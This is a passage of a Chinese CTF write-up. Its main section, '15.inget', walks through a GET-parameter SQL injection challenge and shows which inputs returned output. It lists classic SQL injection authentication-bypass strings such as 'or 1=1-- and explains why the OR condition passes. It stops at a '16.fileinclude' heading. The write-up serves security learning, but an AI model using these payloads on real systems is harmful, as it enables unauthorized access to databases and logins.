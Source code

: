 ```
?a=1e9&b=282662388872&c={"m":"5555a","n":[["2"],0]}
```

![image-20230924185345698](https://tuchuang1-1.oss-cn-beijing.aliyuncs.com/D:/picgo/image-20230924185345698.png)

## 15.inget

提交数据的方式是GET，注入点的位置在GET参数部分。

xxx/xxx/xxx.php?id=1，id就是注入点。

![image-20231015143702736](https://tuchuang1-1.oss-cn-beijing.aliyuncs.com/D:/picgo/image-20231015143702736.png)

开始简单的sql注入尝试。

输入

?id=1' and 1=1-- -

?id=1' and 1=2-- -

?id=1' or 1=2-- -

后发现均无回显。

使用万能密码。

```
"or "a"="a
')or('a'='a
or 1=1--
'or 1=1--
a'or' 1=1--
"or 1=1--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 1=1
'OR 1=1%00
```

输入 id=1' or '1=1

后端会处理成 'id=1' or '1=1'。

我们知道or只要其中一个为真那么就为真。所以为真，通过。

后出现回显。

![image-20231015144231582](https://tuchuang1-1.oss-cn-beijing.aliyuncs.com/D:/picgo/image-20231015144231582.png)

## 16.fileinclude

![image-20231015152011226](https://tuchuang1-1.oss-cn-beijing.aliyuncs.com/D:/picgo/image-20231015152011226.png)
